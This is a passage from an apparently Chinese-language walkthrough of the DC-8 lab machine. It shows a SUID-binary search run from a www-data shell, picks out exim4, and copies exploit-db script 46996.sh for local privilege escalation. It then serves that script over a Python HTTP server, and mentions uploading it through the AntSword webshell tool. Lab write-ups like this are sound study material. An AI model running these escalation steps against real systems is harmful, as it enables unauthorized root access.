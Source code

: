 ```
find / -perm -u=s -type f 2>/dev/null
```

```
www-data@dc-8:/var/www/html$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/newgrp
/usr/sbin/exim4
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/ping
/bin/su
/bin/umount
/bin/mount
```

![upload successful](https://lnng.top/images/pasted-274.png)

**upload successful**

  
发现一个特别的exim4搜索一下漏洞  
尝试一下这个漏洞  

![upload successful](https://lnng.top/images/pasted-275.png)

**upload successful**

  
先复制出来

```
cp /usr/share/exploitdb/exploits/linux/local/46996.sh 46996.sh
```

处理为unix可以的

![upload successful](https://lnng.top/images/pasted-278.png)

**upload successful**

  

![upload successful](https://lnng.top/images/pasted-277.png)

**upload successful**

  
开启一个服务或者你蚁剑连接上传

```
python -m SimpleHTTPServer
```

